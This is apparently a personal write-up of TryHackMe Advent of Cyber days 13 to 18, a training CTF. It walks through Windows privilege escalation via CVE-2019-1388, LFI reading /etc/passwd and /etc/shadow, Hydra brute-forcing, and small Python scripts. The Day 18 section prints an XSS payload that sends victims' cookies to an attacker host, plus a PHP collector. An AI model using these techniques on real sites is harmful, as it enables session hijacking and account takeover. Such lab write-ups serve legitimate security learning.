

So this is third part to the Advent_of_Cyber 25 part Series on <https://tryhackme.com>

## Day13(Task 18)
I started my day today with one of the most frustrating machines to root ,it was this machine
Starting with a nmap scan as usual 


we see ports 80(http),3389(rdp) open and found about the services by selective scans
Checking out the http page,nothing interesting


running gobuster for hidden directory search ,found a hidden directory **retro** which turns out to be a blog 


checking out the comment by **wade**,i thought that maybe  this is one of the users and got the password as **parzival**
as metioned in the comment 


logging into wordpress dashboard doesn't give us anything useful either


now using **Remmina** for rdp connection instead of default as it hash gui and easy to use 
got the user.txt file on the desktop itself which is one of the flag



now on open chrome i got a bookmark refering to a particular vulnerablitiy leading to priv esc in windows server 16
i found a [gif](https://github.com/jas502n/CVE-2019-1388/blob/master/CVE-2019-1388.gif) related to this

so i start with making the internet explorer the default application as  I saw in the gif


I could also see the link to the certificate on hovering around the link


on chossing internet explorer it showed that this page can't be displayed
so lets save it ,just following the gif


using the name field to navigate to **cmd.exe** file in system32 folder


finally got the command prompt and on checking the user it was the administrator so lets read the root flag


got the flag in the desktop folder of the admin


This was literally one of the toughest one in the series till now as it used knowledge from the previous task as well


## Day14(Task 19)
it was just a basics amazon aws bucket access task 


I don't even need to explain it :)

## Day15(Task 20)
we have are given a box so lets start with the nmap scan first as always


Lets checkout the webpage get the answer to the first question here itself 


As it was mentioned in the challenge title it was a Local File Inclusion(LFI) task it was very similar to the one I did in the Natas wargame so I checked the /etc/passwd file first and we got charlie as one of the users


checking out the /etc/shadow file to get charlie's password hash


cracking the hash with john


the follwing task was simple just login to ssh using credentials found and read the flag


## Day16(Task 21)
This challenge was more of a scripting challenge 

### task1
we have to find the no. of non-zip files after all the decompression 
the script is a little bit messy but worked for me

```python
import zipfile
import os

count=0

with zipfile.ZipFile('final-final-compressed.zip',"r") as zip_1:
	zip_1.extractall("decompress_1")

list_f=os.listdir("decompress_1")
# print(list_f)

for a in list_f:
	with zipfile.ZipFile("decompress_1/"+a,"r") as zip_1:
		zip_1.extractall("decompress_2")

print(len(os.listdir("decompress_2")))

```

### task 2
we have to check the metadata of the .txt file found in the previous task and check which all have Version: 1.1 in the metadata

```python 
import os 
import exiftool

m_count=0
file=[]

list_f=os.listdir("./")
# print(list_f)

for l in list_f:
	file.append(l)

with exiftool.ExifTool() as exif:
	metadata=exif.get_metadata_batch(file)

for d in metadata:
	try:
		if(d[u'XMP:Version']==1.1):
			# print(d)
			m_count+=1
	except:
		continue
	# print(d)
	# print("\n")

print(m_count)
```

### task 3 
we have to find the name of the file which contains the string **password** this can be done simply without using any script with the help of grep


## Day17(Task 22)
this task was an introduction to ***Hydra*** which is a brute force online password cracking program; a quick system login password 'hacking' tool.
first we had to brute-force the password for user molly in the http-post-form using rockyou.txt 
using gobuster to find the login directory ,I am lazy did not wanted to guess the directory 


while the brute for login page was running I decided to brutforce the ssh pass in another tab 
and got the pass almost instantly


next I login through ssh and get the second flag


while the brute force for login was running I viewed the other file present in the server and came across an interesting file which had the initial flag and password for the login form and yet still that hydra script was running,**lol**


## Day18(Task 23)

this task was very interesting as I learnt many more things about XSS rather than it just being a vulnerability
we are presented with the site,just a normal login form and register page was not vulnerable to SQLi so registering as a normal user


while logging in we see in the request it shows that there is authid assigned to each user and so is  for admin so our
goal was to get the authid for the admin


After logging in we get a forum page where we can post a comment and this comment input field was vulnerable to XSS
so I read about how to steal cookies using XSS and found an article mention to use 
```
<script>document.location="http://<machine-ip>/cookie.php?c="+document.cookie</script>
```
the above thing as payload 
and the cookie.php file is very trivial one

```php
<?php
	$cookie=$_GET["c"];
?>
```
I setup a php lister at port 8000 and get the admin authid after a few minutes after submitting the comment 


Now this authid can be used to forge the cookie and login as admin into the forum
That's it for today